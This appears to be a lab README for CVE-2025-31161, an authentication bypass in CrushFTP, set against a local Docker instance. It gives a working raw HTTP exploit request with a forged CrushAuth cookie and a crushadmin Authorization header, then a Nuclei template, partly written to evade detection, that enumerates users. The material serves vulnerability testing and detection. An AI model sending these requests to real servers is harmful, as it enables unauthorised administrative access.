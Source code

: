 # CVE-2025-31161: CrushFTP Authentication Bypass

## Description:
CrushFTP versions 10.0.0 through 10.8.3 and 11.0.0 through 11.3.0 are affected by a vulnerability that may result in unauthenticated access. Remote and unauthenticated HTTP requests to CrushFTP may allow attackers to gain unauthorized access.


## Reference:
- https://nvd.nist.gov/vuln/detail/CVE-2025-31161
- https://projectdiscovery.io/blog/crushftp-authentication-bypass/
- https://www.crushftp.com/crush11wiki/Wiki.jsp?page=Update


## Vulnerable Setup:

- Execute the following commands to start a CrushFTP 11.3.0 server:

```
docker compose up -d
```

- After the server is started, browse to http://localhost:8081/WebInterface/login.html to see the CrushFTP WebInterface Login Panel

## Exploitation Steps:

The authentication bypass can be triggered by sending specially crafted requests with manipulated authentication tokens.


**HTTP Request**


```
GET /WebInterface/function/?command=getUserInfo&c2f=9606 HTTP/1.1
Host: locahost:8081
User-Agent: Mozilla/5.0 (ZZ; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Connection: close
Accept-Encoding: gzip
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Cookie: CrushAuth=1049161285377_jZiGxXHpBrrLsAEJmBfAaiFsImLZ9606; currentAuth=9606
Origin: http://localhost:8081
Referer: http://localhost:8081/WebInterface/login.html
X-Requested-With: XMLHttpRequest


```

![image](https://github.com/user-attachments/assets/4aed5bed-2227-4998-831b-307ad8a5e4b8)

# Steps to Write Nuclei Template


**Define Variables**

- To randomize requests and avoid detection, define variables:

```
variables:
  string_1: "{{rand_text_numeric(13)}}"
  string_2: "{{rand_text_alpha(28)}}"
  string_3: "{{rand_text_numeric(4)}}"
```

**Create HTTP Requests**

- The authentication bypass occurs by manipulating CrushAuth cookies and sending unauthorized requests. Craft raw HTTP requests:

```
http:
  - raw:
      - |
        GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f={{string_3}} HTTP/1.1
        Host: {{Hostname}}
        Cookie: CrushAuth={{string_1}}_{{string_2}}{{string_3}}; currentAuth={{string_3}}
        Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
        Origin: {{RootURL}}
        Referer: {{RootURL}}/WebInterface/login.html
        X-Requested-With: XMLHttpRequest
        Accept-Encoding: gzip


```

**Matchers Definition**

- To confirm successful exploitation, the response must meet the following conditions:

  - Status Code : The server should return HTTP 200 (OK), indicating a successful request.

  - Response Body : The response should contain the username "crushadmin" inside the <user_list_subitem> tag, confirming user enumeration.

  - Content-Type : The response should be in XML format (text/xml).

```
    stop-at-first-match: true
    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "<user_list_subitem>crushadmin</user_list_subitem>"

      - type: word
        part: content_type
        words:
          - "text/xml"

      - type: status
        status:
          - 200
```

## Nuclei Template URL : [CVE-2025-31161](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-31161.yaml)

## Nuclei Command :

```bash
nuclei -t CVE-2025-31161.yaml -u http://localhost:8081 -vv
```

![image](https://github.com/user-attachments/assets/6aa6ccaf-cf9d-4d2e-b058-04559a0edd04)
